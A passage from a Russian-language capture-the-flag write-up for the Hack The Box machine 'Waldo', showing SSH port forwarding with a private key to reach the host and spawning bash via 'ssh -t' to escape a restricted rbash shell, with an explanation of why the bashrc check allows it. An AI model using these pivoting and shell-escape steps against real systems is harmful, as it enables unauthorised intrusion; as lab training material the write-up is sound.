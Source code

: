 ```text
waldo:~$ nc localhost 22
SSH-2.0-OpenSSH_7.4p1 Debian-10+deb9u3
^Cpunt!
```

### sshd_config
Внутридокеровский конфиг SSH-сервера подтверждает, что слушается 8888-й порт, а не 22-й:
```text
waldo:~$ cat /etc/ssh/sshd_config |grep -v '^#' |grep .
Port 8888
PermitRootLogin no
AuthorizedKeysFile      .ssh/authorized_keys
PasswordAuthentication no
ChallengeResponseAuthentication no
Subsystem       sftp    /usr/lib/ssh/sftp-server

AllowUsers nobody
```

## Про Restricted-Shell и SSH-туннели
Покажу еще один способ обойти rbash и оказаться в привычном шелле.

Для этого настроим SSH-туннель, чтобы не мучиться с "двойным SSH":
```text
root@kali:~# ssh -oStrictHostKeyChecking=no -L 8022:127.0.0.1:22 -i nobody.key nobody@10.10.10.87
...
```

Теперь при подключении к `localhost:8022` под юзером "monitor" мы сразу попадем внутрь хоста, а не докера:
```text
waldo:~$ nc localhost 8022
SSH-2.0-OpenSSH_7.4p1 Debian-10+deb9u3
^Cpunt!
```

Воспользуемся флагом `-t` для спауна PTY'я и запустим bash при инициализации SSH-подключения:
```text
root@kali:~# ssh -oStrictHostKeyChecking=no -t -i nobody.key -p 8022 monitor@localhost 'bash'
monitor@waldo:~$ export PATH='/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin'
monitor@waldo:~$ ls /
bin  boot  dev  etc  home  initrd.img  initrd.img.old  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  vmlinuz  vmlinuz.old
```

И мы больше не в rbash'е!

### Почему это работает
`/etc/profile` загружает `/etc/bash.bashrc`, в котором есть интересное условие:
```text
monitor@waldo:~$ cat /etc/bash.bashrc |grep -n -A1 'interactively'
6:# If not running interactively, don't do anything
7-[ -z "$PS1" ] && return
```
